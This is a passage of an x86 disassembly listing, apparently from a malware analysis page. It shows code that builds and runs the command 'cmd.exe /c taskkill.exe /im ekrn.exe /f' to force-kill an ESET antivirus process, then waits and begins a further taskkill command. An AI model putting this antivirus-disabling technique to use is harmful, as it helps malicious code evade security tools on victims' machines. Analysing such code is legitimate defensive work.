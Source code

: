   00401FDF    C1E9 02         shr     ecx, 2
  00401FE2    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00401FE4    8BC8            mov     ecx, eax
  00401FE6    33C0            xor     eax, eax
  00401FE8    83E1 03         and     ecx, 3
  00401FEB    8D5424 10       lea     edx, dword ptr [esp+10]
  00401FEF    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  00401FF1    BF 60114000     mov     edi, 00401160                    ; ASCII "ekrn.exe"
  00401FF6    83C9 FF         or      ecx, FFFFFFFF
  00401FF9    F2:AE           repne   scas byte ptr es:[edi]
  00401FFB    F7D1            not     ecx
  00401FFD    2BF9            sub     edi, ecx
  00401FFF    50              push    eax
  00402000    8BF7            mov     esi, edi
  00402002    8BFA            mov     edi, edx
  00402004    8BD1            mov     edx, ecx
  00402006    83C9 FF         or      ecx, FFFFFFFF
  00402009    F2:AE           repne   scas byte ptr es:[edi]
  0040200B    8BCA            mov     ecx, edx
  0040200D    4F              dec     edi
  0040200E    C1E9 02         shr     ecx, 2
  00402011    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00402013    8BCA            mov     ecx, edx
  00402015    8D5424 14       lea     edx, dword ptr [esp+14]
  00402019    83E1 03         and     ecx, 3
  0040201C    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  0040201E    BF 5C114000     mov     edi, 0040115C                    ; ASCII " /f"
  00402023    83C9 FF         or      ecx, FFFFFFFF
  00402026    F2:AE           repne   scas byte ptr es:[edi]
  00402028    F7D1            not     ecx
  0040202A    2BF9            sub     edi, ecx
  0040202C    8BF7            mov     esi, edi
  0040202E    8BFA            mov     edi, edx
  00402030    8BD1            mov     edx, ecx
  00402032    83C9 FF         or      ecx, FFFFFFFF
  00402035    F2:AE           repne   scas byte ptr es:[edi]
  00402037    8BCA            mov     ecx, edx
  00402039    4F              dec     edi
  0040203A    C1E9 02         shr     ecx, 2
  0040203D    F3:A5           rep     movs dword ptr es:[edi], dword p>
  0040203F    8BCA            mov     ecx, edx
  00402041    8D4424 14       lea     eax, dword ptr [esp+14]
  00402045    83E1 03         and     ecx, 3
  00402048    50              push    eax
  00402049    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  0040204B    FFD3            call    ebx
  0040204D    68 B80B0000     push    0BB8
  00402052    FFD5            call    ebp
  00402054    BF D8104000     mov     edi, 004010D8                    ; ASCII "cmd.exe /c taskkill.exe /im "
  00402059    83C9 FF         or      ecx, FFFFFFFF
  0040205C    33C0            xor     eax, eax
  0040205E    8D5424 10       lea     edx, dword ptr [esp+10]
  00402062    F2:AE           repne   scas byte ptr es:[edi]
  00402064    F7D1            not     ecx
  00402066    2BF9            sub     edi, ecx
  00402068    8BC1            mov     eax, ecx
  0040206A    8BF7            mov     esi, edi
  0040206C    8BFA            mov     edi, edx
  0040206E    8D5424 10       lea     edx, dword ptr [esp+10]
  00402072    C1E9 02         shr     ecx, 2
  00402075    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00402077    8BC8            mov     ecx, eax
  00402079    33C0            xor     eax, eax